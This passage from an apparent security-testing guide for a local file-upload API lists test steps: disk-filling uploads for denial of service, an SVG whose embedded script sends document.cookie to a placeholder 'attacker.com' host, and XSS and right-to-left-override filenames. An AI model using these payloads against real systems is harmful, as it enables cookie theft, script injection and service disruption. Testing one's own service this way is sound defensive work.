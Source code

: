 #### Step 5: Large File Upload (DoS)

```bash
# Create a very large file
dd if=/dev/zero of=huge.bin bs=1M count=1000  # 1GB file

# Upload large file to consume disk space
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@huge.bin"

# Repeat multiple times to fill disk
for i in {1..10}; do
  curl -X POST http://localhost:3000/api/upload \
    -H "Authorization: Bearer <token>" \
    -F "file=@huge.bin"
done
```

#### Step 6: SVG with Embedded JavaScript

```bash
# Create malicious SVG
cat > malicious.svg << 'EOF'
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
  <script type="text/javascript">
    alert('XSS via SVG!');
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
  </script>
  <circle cx="100" cy="100" r="50" fill="red"/>
</svg>
EOF

# Upload SVG
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@malicious.svg"
```

#### Step 7: Filename Manipulation

```bash
# Special characters in filename
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F 'file=@test.txt;filename="<script>alert(1)</script>.txt"'

# Unicode characters
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F 'file=@test.txt;filename="test\u202etxt.exe"'  # Right-to-left override
```
